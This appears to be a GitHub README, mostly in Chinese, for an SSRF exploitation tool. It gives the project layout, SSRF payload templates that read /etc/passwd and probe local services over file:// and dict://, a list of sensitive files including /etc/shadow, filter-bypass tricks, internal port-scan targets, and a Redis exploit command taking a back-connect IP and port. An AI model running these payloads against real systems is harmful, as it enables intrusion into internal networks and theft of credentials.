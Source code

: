 # SSRF_ex
SSRF漏洞测试、利用 SSRF vulnerability testing and utilization

SSRF
[+] 服务端请求伪造，当作跳板攻击内网服务
[+] 扫描内部网络、服务
[+] 访问本机敏感文件
[+] 向特定端口发送数据包、payload

```
.
├── exploit
│   └── redis.py
├── lib
│   ├── check_bypass.py
│   ├── check.py
│   ├── common.py
│   ├── config.py
│   ├── scan.py
│   ├── test
│   └── xmltest.xml
├── plugin
│   └── weblogic.py
├── result
│   ├── 192.168.1.107
│   │   ├── file_content.log
│   │   ├── host_port.log
│   │   └── test.log
│   └── 192.168.1.109
│       ├── file_content.log
│       ├── host_port.log
│       └── test.log
├── ssrfex.py


>> ssrfex.py -u http://192.168.1.107/ssrf.php -d url 
```
流程：
```
缓存、存活判断--SSRF漏洞路径判断--简单测试--简单规则绕过--子网、端口扫描
                                  |                       |
                                  |                       |
                              file协议利用           端口Exploit利用
```
### 目标路径判断是否为已知存在漏洞服务
例如：   
```
#ssrf_list = [{'server':'weblogic','path':'/uddiexplorer/SearchPublicRegistries.jsp/uddiexplorer/SearchPublicRegistries.jsp'},{'server':'Splash','path':'/render.html'},{'server':'Typecho','path':'/action/xmlrpc'}]

plugin/weblogic.py -u 192.168.1.1 -p 192.168.1
```

### 简单测试
```
payload_http_inner = "{url}?{query}=http://127.0.0.1".format(url=target,query=parameter)
payload_file = "{url}?{query}=file:///etc/passwd".format(url=target,query=parameter)
payload_dict = "{url}?{query}=dict://127.0.0.1:22".format(url=target,query=parameter)
```
测试协议，通过响应时间、服务指纹、页面返回内容、~静态文件hash值~判断

### file协议读取特定文件
```
['/etc/rsyslog.conf','/etc/syslog.conf','/etc/passwd','/etc/shadow','/etc/group','/etc/anacrontab','/etc/networks','/etc/hosts']
```

### 简单规则绕过
lib/testxml.xml规则和payload
利用url解析，对ip、host等16进制变换以及添加符号绕过

### 端口扫描
```
[22, 80, 445, 3306, 6379, 7001, 8080, 11211]
```
### 内网存活扫描
dict协议，根据服务内容的hash值~时间~判断

### 端口扫描攻击特定端口
```
6379 redis
exploit/redis.py -u [host and parameter] -i [redis_ip] -bip [bip] -bport [bport]
```

### 待更新
* plugin已知SSRF漏洞插件更新：如：Wordpress Discuz Typecho
* SSRF攻击exploit利用：Jobss Mysql struts tomact memcache php-fpm等
* 规则优化
* 302跳转、DNS 利用

### 参考
[SSRF-Testing](https://github.com/cujanovic/SSRF-Testing)
[SSRF bible Cheatsheet](https://docs.google.com/document/d/1v1TkWZtrhzRLy0bYXBcdLUedXGb9njTNIJXa3u9akHM/edit#)
[Build Your SSRF Exploit Framework](https://github.com/ring04h)
